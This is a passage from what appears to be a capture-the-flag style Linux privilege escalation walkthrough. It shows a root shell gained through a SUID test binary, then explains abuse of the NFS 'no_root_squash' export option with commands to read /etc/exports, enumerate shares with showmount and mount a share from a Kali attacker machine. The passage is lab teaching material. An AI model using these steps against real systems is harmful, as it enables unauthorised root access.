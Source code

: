 Call the script

```bash
karen@ip-10-10-230-253:/home/murdoch$ ./test
root@ip-10-10-230-253:/home/murdoch# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
```

## Privilege Escalation: NFS

NFS (Network File Sharing) configuration is kept in the `/etc/exports file`. This file is created during the NFS server installation and can usually be read by users.

```bash
cat /etc/exports
```

Result:

```bash
...
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

**Enumerate the target machine from attacker machine**

```bash
showmount -e 10.10.153.128
```

Result:

```bash
Export list for 10.10.153.128:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```

Create a dir in `/mnt` then mount the nfs share

```bash
┌──(root㉿kali)-[/mnt/backup/backup]
└─# cd /mnt

┌──(root㉿kali)-[/mnt]
└─# mkdir tmp

┌──(root㉿kali)-[/mnt]
└─# mount -t nfs 10.10.153.128:/tmp /mnt/tmp -o nolock
```
